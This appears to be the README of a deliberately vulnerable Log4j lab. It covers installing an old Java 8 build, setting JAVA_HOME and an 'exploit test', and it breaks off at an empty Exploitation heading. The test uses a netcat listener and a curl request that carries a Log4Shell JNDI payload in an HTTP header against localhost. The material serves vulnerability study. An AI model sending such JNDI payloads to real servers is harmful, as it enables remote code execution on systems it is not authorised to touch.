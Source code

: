 # basic-vulnerable-log4j

## Setup of Vulnerable Java 8
To acquire older java versions you can go to: https://repo.huaweicloud.com/java/jdk/
This gives a directory listing titled "Index of java-local/jdk"
From here, we pick any version that we require. In our case we will go with 8u181-b13
As we are installing on Ubuntu, we pick linux-x64.tar.gz. To extract:
`tar -xf jdk-8u181-linux-x64.tar.gz`

`sudo mkdir /opt/jdk`
`sudo mv jdk1.8.0_181/ /opt/jdk`

Create symbolic links in /usr/bin for java and javac that point to /opt/jdk/jdk1.8.0_181/bin/java and /opt/jdk/jdk1.8.0_181/bin/javac

`update-alternatives --install /usr/bin/java java /opt/jdk/jdk1.8.0_181/bin/java 100`

`update-alternatives --install /usr/bin/javac javac /opt/jdk/jdk1.8.0_181/bin/javac 100`

verify:
`java -version`
`javac -version`

We want to set JAVA_HOME environment variable for all users:
`sudo touch /etc/profile.d/java-home.sh`
`sudo echo "export JAVA_HOME=/opt/jdk/jdk1.8.0_181/" >> /etc/profile.d/java-home.sh`
`source /etc/profile.d/java-home.sh`

Setting up tomcat to deploy application

exploit test:
`nc -lvnp 9999`

```
curl --location 'http://localhost:8080/heroes' \
--header 'X-Api-Version: ${jndi:ldap://127.0.0.1:9999}'
```

## Exploitation:
